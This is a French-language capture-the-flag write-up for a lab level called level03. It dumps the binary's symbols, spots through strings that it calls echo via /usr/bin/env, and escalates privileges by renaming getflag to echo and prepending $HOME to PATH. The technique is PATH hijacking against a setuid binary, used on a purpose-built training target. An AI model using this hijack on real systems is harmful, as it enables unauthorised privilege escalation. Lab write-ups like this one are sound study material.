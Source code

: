 On se connecte on trouve un binaire `level03`.

On l'execute et ça affiche `Exploit me`.

On fait un `nm` sur le binaire.

```
08049f28 d _DYNAMIC
08049ff4 d _GLOBAL_OFFSET_TABLE_
080485dc R _IO_stdin_used
         w _Jv_RegisterClasses
08049f18 d __CTOR_END__
08049f14 d __CTOR_LIST__
08049f20 D __DTOR_END__
08049f1c d __DTOR_LIST__
080486f4 r __FRAME_END__
08049f24 d __JCR_END__
08049f24 d __JCR_LIST__
0804a024 A __bss_start
0804a01c D __data_start
08048590 t __do_global_ctors_aux
08048420 t __do_global_dtors_aux
0804a020 D __dso_handle
         w __gmon_start__
08048582 T __i686.get_pc_thunk.bx
08049f14 d __init_array_end
08049f14 d __init_array_start
08048580 T __libc_csu_fini
08048510 T __libc_csu_init
         U __libc_start_main@@GLIBC_2.0
0804a024 A _edata
0804a02c A _end
080485bc T _fini
080485d8 R _fp_hw
08048340 T _init
080483f0 T _start
0804a024 b completed.6159
0804a01c W data_start
0804a028 b dtor_idx.6161
08048480 t frame_dummy
         U getegid@@GLIBC_2.0
         U geteuid@@GLIBC_2.0
080484a4 T main
         U setresgid@@GLIBC_2.0
         U setresuid@@GLIBC_2.0
         U system@@GLIBC_2.0
```
Rien d'exploitable.

On test avec `strings`.

Cette ligne, nous a fait tilte.
`/usr/bin/env echo Exploit me`

Avec l'env on utilise echo.

Apres reflection, si on renomme `getflag` en `echo` et qu'on change le PATH ca pourrais fonctionne

On copie `getflag` dans le home et on le renome `echo`

On change le PATH avec :

```bash
export PATH=$HOME:$PATH
```

ce qui ajoute le home au debut du path, le shell va donc chercher les binaires en premier dans le home

on execute `./level03`

Ca marche !
